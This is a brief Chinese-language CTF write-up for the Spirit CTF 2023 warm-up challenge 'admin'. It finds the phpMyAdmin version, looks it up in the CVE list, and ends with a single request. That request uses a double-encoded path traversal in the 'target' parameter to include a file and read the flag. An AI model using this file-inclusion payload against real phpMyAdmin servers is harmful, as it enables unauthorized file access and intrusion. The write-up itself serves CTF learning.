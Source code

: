 # Spirit CTF 2023 热身赛题解 - admin
#Web #phpmyadmin #Vulnerabilities 

```
/
```

![](<./img/Pasted image 20230508011106.png>)

题目描述
---

> Vulnerability signin~

hint
---

> 不是sql哦~

---

是的这题不需要考虑phpMyAdmin是什么奇怪的玩意，也不需要考虑SQL注入之类的东西（test用户啥权限也没）

首先我们看一眼版本

![](<./img/Pasted image 20230508011543.png>)

然后让我们去[CVE](https://cve.mitre.org/cve/search_cve_list.html)上搜一搜

![](<./img/Pasted image 20230508012042.png>)

![](<./img/Pasted image 20230508012629.png>)

![](<./img/Pasted image 20230508012642.png>)

```
/index.php?a=phpinfo();&target=db_sql.php%253f/../../../../../../flag
```

![](<./img/Pasted image 20230508230625.png>)
